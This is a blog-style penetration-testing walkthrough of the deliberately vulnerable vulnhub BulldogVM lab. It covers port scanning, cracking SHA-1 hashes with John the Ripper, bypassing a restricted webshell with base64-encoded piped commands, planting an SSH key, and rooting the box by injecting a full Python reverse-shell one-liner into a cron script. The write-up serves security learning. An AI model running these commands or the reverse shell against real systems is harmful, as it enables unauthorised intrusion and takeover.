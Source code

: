 ```yaml
---
title: 'Pentest: owning BulldogVM'
categories:
  - Penetration-Testing
tags:
  - Pentest
  - ctf
  - exploits

toc: true

---
```

After owning the Rick and Morty VM I searched vulnhub for another challenge, and I found a VM that hosted a bulldog lover website that got hacked.
The VM is available [here](https://www.vulnhub.com/entry/bulldog-1,211/) for your exploitation fun!
There is no capture the flag, the only goal is get root.

## Finding the open ports

I always start with a port scan on the target to find out all open ports and potential services running on those ports, this gives me a clear better picture of the VM and will tell me more information on how to approach the exploitation process.

`nmap 10.0.2.20 -p-`

this produced following results:

```
PORT     STATE SERVICE
23/tcp   open  telnet
80/tcp   open  http
8080/tcp open  http-proxy

```

----

## Telnet?

I see telnet open, which is not secure at all, you could just set up a listener and wait for a user to connect, and see the password in plain text and it's basically game over. However this is a VM, and no one is going to log on to it except us :D so this won't work.

when I connect to the telnet port using
`nc -v #(verbose option) 10.0.2.20 23`

I get a protcol mismatch, SSH seems to be running instead of telnet, interesting...

---

## 80 - 8080

I open my webbrowser and go to the website on port 80 and check port 8080 as well, they look the same...

time to use `dirb` to see any hidden folders (another spider can also be used ofcourse, but I start to like dirb)
`dirb http://10.0.2.20`

dirb found a /dev/ subdirectory, so I went to check it out in my browser and indeed there is another webpage there with a link to a webshell... interesting!

Clicking the webshell link will tell you you'll have to be authenticated...

----

On the /dev/ webpage there are some emails so we already have some potential usernames
taking a look at the source code of this page we see commented hashes
let's use a hash identifier to find out what hash this is and if it's crackable

`hash-identifier`
enter one of  the hashes found and it will tell you that there is a good chance the hash is SHA-1
put all the hashes in a file like this `user:hash`, and feed it to our trusty friend John-The-Ripper to decrypt

`john hashes --format=Raw-SHA1 --wordlist=/usr/share/wordlists/rockyou.txt #location to wordlist`

after some time we get some interesting results:
```
bulldog         nick
bulldoglover    sarah
```

We found the password of nick and sarah, time to see what our friend `dirb` uncovered other than the /dev/ folder...
dirb found an admin folder with a login page, let's use nicks credentials and login
---

I've been able to login as nick, but nick has no permission to do anything on the page, Let's check if we can use the webshell we found before..

Yes, the web shell is now accessable, but it's "protected" we can only execute limited commands, or so the dev thinks,...

Indeed we can not use any commands other than the ones specified in a traditional way

but we can use the echo command, so what happens if we try to echo a "restricted" command and pipe it to the shell using `|sh`

it works, however we can't chain commands using `;`  so we have to do it all one by one, this is a tedious process ...
what happens however, if we encode our input to `base64` and decrypt it again, would that work?

yes, yes it does :) we can now chain commands.


## Create SSH access
----
since I can now chain commands I can now inject my own ssh key into the machine to have ssh access on my machine instead of that annoying webshell..

```
mkdir /home/django/.ssh #there was no ssh folder present yet
<my own ssh key> > /home/django/.ssh/authorized_keys
```

let's check out the `etc/passwd` file for all users, we can make it easier for ourselves and use `|grep bash` to see all users capable of using bash.
we find that there are 3 users on the system capable of doing this

```
root
bulldogadmin
django
```

After fiddling I found some hidden folders but not much good stuff going on, until I found a hidden directory in the `/etc/cron.d`  called hiddenAVDirectory
---

## I AM ROOT 

the root user runs a python script there, so all I did was inject a python shell in that script and opened a listener  on my kali

shell script:
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<mykaliip>",44444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

kali listener:

`nc -lvp 44444`

and voila, root shell achieved.
